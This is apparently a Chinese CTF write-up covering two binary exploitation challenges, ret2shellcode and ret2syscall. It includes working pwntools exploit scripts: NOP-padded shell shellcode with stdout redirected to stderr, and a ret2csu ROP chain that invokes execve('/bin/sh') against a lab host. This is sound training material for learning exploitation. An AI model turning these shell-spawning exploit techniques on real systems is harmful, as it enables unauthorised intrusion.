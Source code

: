 ## 随便乱搞的shellcode

> 会shellcraft.sh()就可以梭，但你还需要知道一些机器可以执行的、没啥用的汇编指令，比如nop。

mmap开了一段内存区域让你写shellcode，且没有任何限制。

但是最后加了一个起始地址的随机化和关闭了标准输出（1）：

```c
    srand(time(0));
    shellcode_space+=rand()%0x100;
    close(1);
```

你只需要让shellcode贴着mmap区域末尾，然后把输出重定向到标准错误（2）或者标准输入（0）即可。

> 建议优先使用标准错误，高版本似乎标准输入只读

前面填充上一些干了但是等于啥也没干的指令，比如`nop`等。

```py
from pwn import *
context(arch="amd64",os="linux",log_level="debug")
#s=process("../dist/ret2shellcode")
s=remote("192.168.3.253",51003)
#pause()
s.sendafter(b"code:\n",asm(shellcraft.sh()).rjust(0x100,b"\x90"))
s.sendline(b"exec 1>&2")
s.interactive()
```

## 高端的syscall

> 需要了解系统调用、x64调用约定、如何传参。
>
> 还有ret2csu，跨架构、可以控制rdi,rsi,rdx三个寄存器和执行流
>
> 这个题如果你会ret2libc可以直接梭

rax存系统调用号，不多于6个参数按rdi,rsi,rdx,rcx,r8,r9顺序存放，多于6个按不同调用约定可能会正序或倒序入栈。

```py
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
#s=process("./ret2syscall")
s=remote("192.168.3.253",51004)
elf=ELF("../dist/ret2syscall")
rdi=0x00000000004012e3
rsi_r15=0x00000000004012e1
csu1=0x4012DA
csu2=0x4012C0
rax=0x401196
syscall=0x4011AE
#pause()
s.sendlineafter(b"Input: \n",flat([
    b"a"*0x18,
    rdi,0x404500,
    elf.plt.gets,
    rdi,0x3b,rax,
    csu1,0,1,0x404500,0,0,0x404508,
    csu2,
]))
#pause()
s.sendline(b"/bin/sh\x00"+p64(syscall))
s.interactive()
```
